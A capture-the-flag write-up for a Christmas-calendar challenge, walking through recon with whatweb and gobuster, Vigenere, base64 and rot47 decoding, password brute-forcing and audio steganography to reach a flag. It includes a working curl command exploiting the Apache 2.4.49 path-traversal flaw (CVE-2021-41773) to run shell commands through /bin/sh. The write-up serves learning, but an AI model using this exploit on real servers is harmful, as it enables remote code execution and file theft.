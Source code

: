 # Challenge

So you really want to get tickets for DJ Oiler's Monster Bash at Santa's Rave Party.

I guess you'd better head on over to:

http://santasticketoffice.norwayeast.azurecontainer.io

before they sell out... You really don't want to miss out on DJ Oiler and DrCiRCUiT and the Stack Tracers!

> **Hint:** So this seems strangely familiar, yet differen't... And btw you may need to consult Allsafe Cybersecurity's 1337 guy down the line... or not who knows :)

# Writeup

Started with exiftool on image from the website, nothing! Used whatweb on the site and it clearly shows apache 2.4.9.

```bash
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24/web]
└─$ whatweb -a 3 http://santasticketoffice.norwayeast.azurecontainer.io/
http://santasticketoffice.norwayeast.azurecontainer.io/ [200 OK] Apache[2.4.49], Bootstrap[4.5.2], Country[UNITED STATES][US], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[20.100.165.5], Title[Santa's Ticket Office]
```

Quick search on exploit-db shows [CVE 2021-41773](https://www.exploit-db.com/exploits/50383). Quickly modified tested the script from exploit-db and it works. Found out by browsing `ls /` it had a flag.txt. So here is how I extracted that:

```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /flag.txt" "http://santasticketoffice.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

${...}
Nope, no flag here. Did you really think it would be this simple?
Not when Dj Oiler is involved! 
But you did find something... you managed to find this ticket:
VkJFVDovL2pvdmVlamZpZ2kuZWN6aGVwc2lkeC5ybmNjaXRjdmVlemJtYy5tZg==

Well in the mean time you can find the key for this cipher here:

 ▄▄▄▄▄▄▄   ▄ ▄▄▄▄ ▄▄▄ ▄ ▄  ▄▄▄▄▄▄▄
 █ ▄▄▄ █ ▀ ▀ ▄█▀█▀▀  ▄▄▄▄▀ █ ▄▄▄ █
 █ ███ █ ▀█▀ ▀ ▀█▄█▄▄█ ▀██ █ ███ █
 █▄▄▄▄▄█ █▀▄▀█ ▄ ▄ █ █ █ █ █▄▄▄▄▄█
 ▄▄▄▄▄ ▄▄▄█▀█  ▀ █▄▀ ▀▀█▀█▄ ▄ ▄ ▄ 
  ▄▀██▄▄ █ █ ▀███▄▀█▀▀▀▀▀ ▀▀  ▄▀█▀
  ▄▄▄  ▄▀▀▄▄ █▀▄█ ▄ █▀▀▄ ▄▄▀█▄▄▀  
 █ ▄▀▄▄▄  ▀▄▄▄  ▀▀ ▀▀▀█▄▀  █▄▄  █▀
 ▀▀ █▄█▄███ █  ▀ █▄▀█▀▀▀▀ █ ▄█ ▀▄ 
   ▀▄ █▄▄ ▀▄ ▀███▄ ▀▀▄ ▄▀▄▄▀  █ █▀
  ▀▄▀▀█▄█▀█  █▀▄█ ▄▀▀▄▀▄█▄█ ██ ▀▄ 
 █ █▄▀▄▄▀██▄▄▄  ▀▀ ▀▀█▀█▀▀▀▀▄▄█ █▀
 █ █▄ ▄▄█▀█▄█  ▀ ▀▄ ▀█▀█ ████▄▀▀ ▄
 ▄▄▄▄▄▄▄ █▄▀ ▀███▄█▀▀█▄ ██ ▄ █ ▄▄▀
 █ ▄▄▄ █ ▄▄  █▀▄▀▄▄▀█▀▀█ █▄▄▄██▀█ 
 █ ███ █ █ ▄▄▄  ▄███▀▀ ▄   ▄▀▀▀█▀▀
 █▄▄▄▄▄█ ██▄█  ▀█▀▄  ▀▀▄█▄▀██▀▀▀▄ 


Last letter i R...
```

Base64 data: `VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf`
QR Code: `https://htbbinaries.z1.web.core.windows.net/hiddenkey`

Started decoding the base64 data and as I knew the url format I easily guessed the first 5 letters of the subdomain to be `santas`.

```
VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf
http://----------.norwayeast.azurecontainer.io
       santas....

j = s
nve = nta
so.. santas <4 letters>
```

Starting my DNS hammer, while searching for clues on what it might be on the websites.

I came as far as: `santsabdjt.norwayeast.azurecontainer.io` when it suddenly came to me, the title invites us to "santas rave".. So maybe that is all? I tested it and got a hit!

Edit: Turns out to be Vigenere Decode using keyword: oiler, probably extractable from the hiddenkey as it hints with the QR code. But with so many known variables it is also easier to guess.

Whatweb on santasrave:

```
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24]
└─$ whatweb -a 3 http://santasrave.norwayeast.azurecontainer.io/
http://santasrave.norwayeast.azurecontainer.io/ [200 OK] Country[UNITED STATES][US], HTML5, IP[20.100.161.219], Title[Welcome to Santas Rave!], X-UA-Compatible[IE=edge]
```

Alt text on image says: `find djoilersmonsterbash.cue and .bin files`
Comment below: `Then maybe Santa can tell you where to go next?`

Santa tells me:
```
Author                          : DrCiRCUiT enjoys the key CHRISTMAS
Artist                          : OUVFQWleXjY9PTpARURBMkRESEBDNTc6PzU2Q10/QENIMko2MkRFXTJLRkM2NEA/RTI6PzZDXTpA
Comment                         : 64->47->www`
```

Gobuster quickly found /promo on the website where I found the .cue and .bin files. Used PowerISO to extract the wav files which. Exiftool or steghide (with password "CHRISTMAS") did not work. So started soon enough on the santa image. URL was base64 decoded, then rot47 and I got the following url: `http://elliotspasswordfinder.norwayeast.azurecontainer.io`

![elliots password finder](elliotspasswordfinder.png)

10 tracks, 10 keys, after a while I build a [quick bruteforce script](brute.js) as I had nothing to go on here. I tried different words, from the website. Lots of different stuff, suddenly I had a hit on our main guy DJ Oiler! "oiler" was the 7th key. So I tried different people I know. Even WCH. Nothing.

With a loss of stuff to try I tried the names of all the songs. And here we go! 

```
Testing: crypto
Testing: stego
Testing: constant
Testing: pain
1 - pain = success
Testing: breakpoint
2 - breakpoint = success
Testing: dancing
Testing: meltdown
Testing: overflow
Testing: my
Testing: buffer
4 - buffer = success
Testing: pop
Testing: my
Testing: stack
5 - stack = success
Testing: hardware
6 - hardware = success
Testing: problem
Testing: oct31
Testing: catch
Testing: my
Testing: exception
8 - exception = success
Testing: hackers
Testing: assemble
9 - assemble = success
Testing: drcircuit
Testing: and
Testing: the
Testing: stack
5 - stack = success
Testing: tracers
Testing: ctf
```

1, 2, 4, 5, 6, 8 and 9 all hits. So looking at why number 3 fails. Only 1 word. So I listen to it and hear the following 3 words `meltdown initiated execute` and to my surprise it hits on execute! Now I continue doing that on all of the missing, taking the lyrics and after a while I got them all.

// 1 = pain
// 2 = breakpoint
// 3 = execute
// 4 = buffer
// 5 = stack
// 6 = hardware
// 7 = oiler
// 8 = exception
// 9 = assemble
// 10 = blues

Pressing all the keys and open them one by one reveals after a while the password:

![reveal](elliotspasswordfinder-solved.png)

Now really knowing where to go from here I did google "hide files in wav" shows the second hit: [The Hacks of Mr. Robot: How to Hide Data in Audio Files](https://null-byte.wonderhowto.com/how-to/hacks-mr-robot-hide-data-audio-files-0164136/) which talks about "DeepSound"

Quickly opening track 1 asked for a password, pasted in "GiveMyRegardsToElliott!" and got a file. Same for 2, nothing for 3-9 but 10 asked for password but did not work.

Looked at the two hidden files I found called "hidden-1.png" and "hidden-2.png", exittool shows a comment on the first file `Split the difference...`. So I open up a diff checker [Image Diff Checker](https://www.diffchecker.com/image-compare/) and got this.

![image](hidden-diff.png)

`${M3RRY_C4RI57M@5_FROM_DNB_N3W73C4_l@B!}`